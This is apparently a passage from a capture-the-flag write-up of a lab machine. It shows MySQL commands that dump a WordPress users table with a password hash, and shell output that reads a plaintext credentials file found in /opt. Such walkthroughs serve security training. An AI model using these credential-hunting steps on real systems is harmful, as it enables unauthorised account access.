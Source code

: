 <br>

I look through the database and it's empty with nothing in it.

<br>

Moving on to **MySQL** I login with the credentials we found by running:

`mysql -h localhost -D wordpress -u wordpress -p`

I then dig around for the users list to see if we can get any other credentials:

- show databases;
- use wordpress;
- show tables;
- select * from wp_users;

We get the admin user but it's the same thing we already have:

```
+----+------------+------------------------------------+
| ID | user_login | user_pass                          |
+----+------------+------------------------------------+
|  1 | admin      | $P$BOFWK.UcwNR/tV/nZZvSA6j3bz/WIp/ |
+----+------------+------------------------------------+
```

Seems like the databases are a dead end.

<br>

## Further System Digging

I'll admit at this point I hit a bit of a wall and just continued digging around the box before eventually stumbling on a file in the **/opt** directory that provides further credentials:

```
www-data@internal:/tmp$ cd /opt
www-data@internal:/opt$ ls
containerd  wp-save.txt
www-data@internal:/opt$ ls -al
total 16
drwxr-xr-x  3 root root 4096 Aug  3  2020 .
drwxr-xr-x 24 root root 4096 Aug  3  2020 ..
drwx--x--x  4 root root 4096 Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
www-data@internal:/opt$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

<br>
